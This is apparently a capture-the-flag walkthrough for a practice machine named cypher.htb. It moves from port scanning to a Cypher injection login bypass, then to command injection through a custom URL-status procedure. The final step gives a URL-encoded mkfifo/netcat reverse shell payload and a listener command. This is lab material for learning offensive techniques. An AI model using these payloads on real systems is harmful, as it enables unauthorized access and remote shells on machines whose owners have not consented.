 ## Step 1: Scan for Open Ports

First thing, let's scan for open ports with the following `nmap` command:

```bash
nmap -sV -sC -p- --defeat-rst-ratelimit -O -A cypher.htb
```
## Scan results:
![Nmap port scan](img/nmap.png)

## Step 2: Investigate website

With only ports 80 and 22 open, we’ll start by examining the web service.

![Login page](img/loginpage.png)

## Step 3: Cypher injection

After trying some Cypher injection payloads we can see that there is a huge error popping up. This strongly suggests a potential Cypher injection vulnerability.

![Login page after injecting 'OR 1=1](img/image.png)

## Step 4: Crafting authentication bypass payload

```bash
{
  "username": "admin' OR 1=1 RETURN 'a94a8fe5ccb19ba61c4c0873d391e987982fbbd3' AS hash //",
  "password": "test"
}
```
### How this works?
This payload returns the hash of the string "test", which is then used for comparison against the user-provided password hash instead of actual admins hash.

![Demo page](img/Demopage.png)

## Step 5: Crafting SSRF payload with Cypher Injection

```bash
CALL custom.getUrlStatusCode("http://ip:port/?c=$(whoami)")
```

This payload leverages a custom function to retrieve the HTTP status code from a specified URL. However, it also includes a command injection ($(whoami)) at the end of the URL, which attempts to execute a system command on the server.

### How to use?

1. Set up netcat listener on your port.

```bash
nc -lnvp 4444
```

2. Enter the payload into search query on the website.

```bash
CALL custom.getUrlStatusCode("http://<ip>:<port>/?c=$(rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20<ip>%20<port>%20%3E%2Ftmp%2Ff)")
```

3. Check your listener for response.

![Foothold](img/foothold.png)
   

